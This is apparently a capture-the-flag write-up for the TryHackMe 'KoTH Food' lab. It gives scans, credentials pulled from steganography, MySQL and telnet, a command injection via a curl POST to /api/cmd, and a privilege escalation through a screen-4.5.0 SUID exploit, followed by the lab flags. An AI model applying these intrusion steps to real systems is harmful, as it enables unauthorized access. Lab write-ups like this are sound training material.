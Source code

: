 > KoTH Food CTF | Get the 8 flags

**export IP=10.10.111.210**

# Nmap

sudo nmap -A -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
3306/tcp open  mysql   syn-ack ttl 63 MySQL 5.7.29-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.29-0ubuntu0.18.04.1
9999/tcp open  abyss?  syn-ack ttl 63
15065/tcp open  http    syn-ack ttl 63 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
16109/tcp open  unknown syn-ack ttl 63
46969/tcp open  telnet  syn-ack ttl 63 Linux telnetd\
```

In port 16109, we got an image and on running steghide we got `creds.txt`. 
```
pasta:pastaisdynamic
```

We can SSH using these credentials and in bread's home, we got a flag.

## In http://10.10.111.210:15065/monitor/main.js we have an user `Steve` and we have obfuscated code

And on opening developer tools, we find it makes a request to /api/cmd.

curl 10.10.111.210:15065/api/cmd -X POST -d "ls -la"

# Flag 1
```
thm{7baf5aa8491a4b7b1c2d231a24aec575}
```

# Gobuster

sudo gobuster -u http://10.10.111.210:15065/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -o gobuster/initial -t 20 -x txt,php,zip,tar,sql,7z

```
/monitor
```

## Note : In port 15065, we have a username `dan`.

# Mysql

We can login using basic credentials `root:root`

mysql -h $IP -u root -p
```
show databses;
use users;
show tables;
select * from User;
```

And we have credentials `ramen:noodlesRTheBest`

# Flag 2

```
thm{2f30841ff8d9646845295135adda8332}
```

# Telnet

telnet 10.10.111.210 46969

```
Trying 10.10.111.210...
Connected to 10.10.111.210.
Escape character is '^]'.
tccr:uwjsasqccywsg => Looks like caesar
foodctf login: 
```

We got credentials `food:givemecookies`

And SSH using these creds. we have a `.flag` file 

# Flag 3

```
thm{58a3cb46855af54d0660b34fd20a04c1}
``` 

# Privilege Escalation

find / -perm -u=s -type f 2>/dev/null

```
/bin/ping
/bin/su
/bin/umount
/bin/mount
/bin/fusermount
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/at
/usr/bin/vim.basic
/usr/bin/passwd
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/newgidmap
/usr/bin/screen-4.5.0 => Looks like an exploit
/usr/bin/chfn
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/telnetlogin
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/snap/core/7270/bin/mount
/snap/core/7270/bin/ping
/snap/core/7270/bin/ping6
/snap/core/7270/bin/su
/snap/core/7270/bin/umount
/snap/core/7270/usr/bin/chfn
/snap/core/7270/usr/bin/chsh
/snap/core/7270/usr/bin/gpasswd
/snap/core/7270/usr/bin/newgrp
/snap/core/7270/usr/bin/passwd
/snap/core/7270/usr/bin/sudo
/snap/core/7270/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/7270/usr/lib/openssh/ssh-keysign
/snap/core/7270/usr/lib/snapd/snap-confine
/snap/core/7270/usr/sbin/pppd
/snap/core/8689/bin/mount
/snap/core/8689/bin/ping
/snap/core/8689/bin/ping6
/snap/core/8689/bin/su
/snap/core/8689/bin/umount
/snap/core/8689/usr/bin/chfn
/snap/core/8689/usr/bin/chsh
/snap/core/8689/usr/bin/gpasswd
/snap/core/8689/usr/bin/newgrp
/snap/core/8689/usr/bin/passwd
/snap/core/8689/usr/bin/sudo
/snap/core/8689/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8689/usr/lib/openssh/ssh-keysign
/snap/core/8689/usr/lib/snapd/snap-confine
/snap/core/8689/usr/sbin/pppd
```

And on searching in searchsploit, we got a script. Running it we got root access.

# Flag 4

```
thm{9f1ee18d3021d135b03b943cc58f34db}
```

And we have another flag in /var

# Flag 5

```
thm{0c48608136e6f8c86aecdb5d4c3d7ba8}
```

And in `tryhackme` directory we have flag7.

# Flag 7

```
thm{5a926ab5d3561e976f4ae5a7e2d034fe}
```